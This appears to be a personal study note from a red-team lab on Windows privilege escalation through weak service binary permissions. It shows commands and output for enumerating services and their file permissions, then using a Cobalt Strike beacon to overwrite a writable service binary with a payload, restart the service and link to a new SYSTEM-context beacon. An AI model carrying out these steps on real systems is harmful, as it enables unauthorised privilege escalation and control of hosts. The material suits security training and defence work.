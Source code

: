 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Weak Service Binary Permissions]]  
___

## Description:  

Enumerate services and look for binaries that have weak permissions.

You can see the services installed on a machine by opening **services.msc**, or via the **sc** command line tool.

```
C:\>sc query

SERVICE_NAME: Appinfo
DISPLAY_NAME: Application Information
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: AudioEndpointBuilder
DISPLAY_NAME: Windows Audio Endpoint Builder
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Or the **Get-Service** PowerShell cmdlet.

```
PS C:\> Get-Service | fl

Name                : AJRouter
DisplayName         : AllJoyn Router Service
Status              : Stopped
DependentServices   : {}
ServicesDependedOn  : {}
CanPauseAndContinue : False
CanShutdown         : False
CanStop             : False
ServiceType         : Win32ShareProcess

Name                : ALG
DisplayName         : Application Layer Gateway Service
Status              : Stopped
DependentServices   : {}
ServicesDependedOn  : {}
CanPauseAndContinue : False
CanShutdown         : False
CanStop             : False
ServiceType         : Win32OwnProcess

```

WMI can be used to pull a list of every service and the path to its executable well using CobaltStrike.

```
beacon> run wmic service get name, pathname

Name                                      PathName
ALG                                       C:\Windows\System32\alg.exe
AppVClient                                C:\Windows\system32\AppVClient.exe
AmazonSSMAgent                            "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"
[...snip...]
Vuln-Service-1                            C:\Program Files\Vuln Services\Service 1.exe

```


Use PowerShell to enumerate the permissions of the binaries being run by the services.

**Look for modify permissions

```
beacon> powershell Get-Acl -Path "C:\Program Files\Vuln Services\Service 3.exe" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vuln Services\Service 3.exe
Owner  : BUILTIN\Administrators
Group  : WKSTN-1\None
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  Modify, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
Audit  : 
Sddl   : O:BAG:S-1-5-21-689523297-2952850621-452819511-513D:PAI(A;;FA;;;SY)(A;;FA;;;BA)(A;;0x1301bf;;;BU)(A;;0x1200a9;;
         ;AC)(A;;0x1200a9;;;S-1-15-2-2)

```

This allows us to simply overwrite the binary with something else (make sure you take a backup first).

Add a new listener and select beacon TCP before you create your payload. (I didnt check the bind to localhost checkbox, i am not sure when you would use this).

```
beacon> run sc stop Vuln-Service-3
beacon> upload C:\Payloads\Service 3.exe
beacon> ls
[*] Listing: C:\Program Files\Vuln Services\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 282kb    fil     03/03/2021 11:38:24   Service 3.exe

beacon> run sc start Vuln-Service-3
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.231
```




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (10:15 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
